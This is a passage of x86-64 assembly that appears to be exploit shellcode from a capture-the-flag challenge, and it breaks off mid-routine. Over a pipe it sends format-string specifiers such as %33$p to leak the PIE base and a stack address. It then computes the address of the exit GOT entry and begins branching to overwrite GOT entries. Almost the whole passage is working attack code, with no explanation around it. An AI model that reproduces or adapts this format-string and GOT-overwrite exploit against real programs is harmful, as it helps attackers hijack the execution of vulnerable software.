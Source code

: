 ```python=
    call str2hex
    mov r15, rbx
    shl r15, 16
    pop rax
    mov dl, 4
    call str2hex
    add r15, rbx
    jmp rbp

pipe:   /* rdi rsi rdx rax */
    pop r8
    mov rdi, 6
    mov rsi, rsp
    mov rdx, 0x1000
    mov rax, 1
    syscall     /* write to pipe */
    mov rdi, 3
    mov rsi, rsp
    mov rdx, 0x1000
    mov rax, 0
    syscall     /* read from pipe */
    jmp r8

start:
    /* leak pie base */
    mov rax, 0x7024333325   /* %33$p */
    push rax
    call leak
    sub r15, 0x1a40     # r15 pie base
    mov r14, r15
    add r14, r13     # exit GOT
    mov r10, r14
    
    /* leak rbp */
    mov rax, 0x7024363325   /* %36$p */
    push rax
    call leak
    sub r15, 0xe8
    mov r12, r15    /* rbp */

    /* leak target */
    mov rax, 0x7024323625   /* %62$p */
    push rax
    call leak /* target on r15*/
    
    /* use fmt to write exit got on stack */
    xor r9, r9
    mov r13, r14    /* exit GOT on r13 */
    mov rax, rsp
    and rax, 0xfff
    cmp rax, 0x81e
    je L1
    cmp rax, 0x86e
    je L2
    cmp rax, 0x8be
    je L3
    jmp L4
L1:     /* exit */
    sub r13, 0x4088
    add r13, 0x1957
    jmp write_got
L2:     /* close */
    sub r13, 0x4030
```